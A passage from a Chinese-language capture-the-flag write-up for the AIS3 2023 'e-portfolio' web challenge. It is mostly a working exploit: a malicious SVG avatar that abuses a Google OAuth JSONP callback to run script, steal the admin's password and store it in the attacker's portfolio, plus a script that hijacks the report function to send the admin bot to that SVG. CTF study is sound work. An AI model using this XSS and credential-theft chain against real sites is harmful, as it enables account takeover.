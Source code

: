 所以解題步驟如下：

1. 把下面這個 SVG 設成自己的 avatar，他做的事情就是把使用者密碼存到自己的 portfolio 裡面。

```svg
<svg xmlns="http://www.w3.org/2000/svg">
    <script href="https://accounts.google.com/o/oauth2/revoke?callback=fetch('/api/portfolio')
                .then(function (res) { return res.json() })
                .then(function (data) {
                    if (data.success) {
                        const ADMIN_PASSWORD = data.data.password;
                        fetch('/api/login', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({
                                username: 'c9dec36a35e1f8723cdcbbbad50123f3',
                                password: 'f7e2ca2336d33b6509656bb3581f0fa0' 
                            })
                        })
                        .then(function (res) { 
                            const formData = new FormData();
                            formData.append('about', ADMIN_PASSWORD);
                            fetch('/api/portfolio', {
                                method: 'PUT',
                                body: formData
                            })
                        })
                    } 
                });"></script>
</svg>
```

2. 把剛上傳好的 `/avatars/<MD5 hash>.svg` 網址記下來，如果直接拜訪 `/avatars/<MD5 hash>.svg` 可以確認 XSS 確實被觸發。

   所以要把 `/avatars/<MD5 hash>.svg` 送給 admin，需要蓋過[原本 Share your portfolio with admin 的網址](https://github.com/Ching367436/My-CTF-Challenges/blob/main/ais3-pre-exam/2023/web/e-portfolio/web/src/views/portfolio.eta#L86C9-L103)，其實只需把 `onReport` 蓋成送我們的 `/avatars/<MD5 hash>.svg` 的網址，像下面這樣。（之所以是蓋 `onReport` 的原因是因為 reCAPTCHA 的[配置](https://github.com/Ching367436/My-CTF-Challenges/blob/main/ais3-pre-exam/2023/web/e-portfolio/web/src/views/portfolio.eta#L35-L36)關係）。

   ```javascript
   function onReport(token) {
       const url = new URL(`/avatars/8209116d30ade81ae5c2793d3d8ed4cf.svg`, location)
       fetch('/api/report', {
           method: 'POST',
           headers: {
               'Content-Type': 'application/json'
           },
           body: JSON.stringify({ url: url.href, 'g-recaptcha-response': token }),
       })
           .then(res => res.json())
           .then(data => {
               if (data.success)
                   alert('Request sent!')
               else
                   alert(data.message)
               grecaptcha.reset();
           })
   }
   ```
